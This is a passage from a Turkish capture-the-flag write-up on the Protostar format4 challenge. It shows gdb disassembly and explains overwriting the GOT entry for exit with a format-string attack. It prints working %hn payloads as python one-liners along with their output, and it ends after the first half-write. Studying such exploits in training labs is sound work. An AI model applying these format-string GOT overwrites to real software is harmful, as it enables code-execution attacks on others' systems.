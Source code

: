 ```bash
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:	push   %ebp
0x080484d3 <vuln+1>:	mov    %esp,%ebp
0x080484d5 <vuln+3>:	sub    $0x218,%esp
0x080484db <vuln+9>:	mov    0x8049730,%eax
0x080484e0 <vuln+14>:	mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:	movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:	lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:	mov    %eax,(%esp)
0x080484f5 <vuln+35>:	call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:	lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:	mov    %eax,(%esp)
0x08048503 <vuln+49>:	call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:	movl   $0x1,(%esp)
0x0804850f <vuln+61>:	call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) disas 0x80483ec
Dump of assembler code for function exit@plt:
0x080483ec <exit@plt+0>:	jmp    *0x8049724
0x080483f2 <exit@plt+6>:	push   $0x30
0x080483f7 <exit@plt+11>:	jmp    0x804837c
End of assembler dump.
```
Vuln fonksiyonunun içeriğine bakıp son satırdaki exit fonksiyonuna bakalım. Dikkat ederseniz buradaki adres PLT tablosundan bir adres. Bahsettiğim kaynaklarda da görmüşsünüzdür ki PLT tablosu entrylerden oluşuyor. Yani ilk iki satırdan sonrası 3'er satır şeklinde entrylerden oluşuyor. Burada biz exit fonksiyonunu çağırırken plt'deki ilgili entrye gidip ilk satırından ilgili GOT table satırına jmp ile zıplıyor. Oradan da fonksiyonun libc'deki adres değerini alıp ona jmp ile zıplıyor. Burada kafanız karışmış olabilir. PLT ve GOT table yapısını başka bir yazıda anlatmayı düşünüyorum adım adım.<br><br>
Şimdi biz burada  `0x8049724` adresinin içeriğini değiştirmeye çalışacağız çünkü GOT tablosunda bu adreste exit fonksiyonunun adresi var. Yani `0x8049724` adresinin olduğu noktaya hellonun adresini yazmalıyız ki plt tablosunda ilgili entrynin ilk satırına geldiğinde içeriğini çalıştıracağı got table adresinde hello olsun. (Baya karışık anlattım :/ ) <br><br>
Biz bu adrese `0x80484b4 = 134513844` yazacağız ancak sayı çook büyük. Bunu yapmak için format stringlerdeki bri özellikten faydalanacağız. %n yerine %hn vererek 4 byte yerine 2 byte yazabilme gibi bir lüksümüz var :) Hedef adresin düşük anlamlı 2 byte'ına yazmak için 0x8049724 adresinden, diğer 2 byteına yazmak için de 0x8049726 adresinden başlamamız gerekir.
```bash
user@protostar:/tmp$ echo $(python -c 'print "\x26\x97\x04\x08" + "\x24\x97\x04\x08" + "%x "*10 ') | /opt/protostar/bin/format4
$�&�200 b7fd8420 bffff4f4 8049726 8049724 25207825 78252078 20782520 25207825 78252078
```
4 . sıraya ilk adresi ve 5. sıraya da ikinci adresi yazıyormuşuz.
```bash
user@protostar:/tmp$ echo $(python -c 'print "\x26\x97\x04\x08" + "\x24\x97\x04\x08" + "%2044d" + "%4$hn" + "%d" + "%5$hn" ') | /opt/protostar/bin/format4

user@protostar:/tmp$ dmesg | tail -1
[11906.772182] format4[1887]: segfault at 804080f ip 0804080f sp bffff49c error 4 in format4[8048000+1000]
```
Denemeler sonucu ilk parçayı tamamladık. burada deneme yanılma yolu ile ilerledim ancak isterseniz gdb ile bakıp hesaplayıp yapabilirsiniz. diğer tarafı da tamamlayalım.
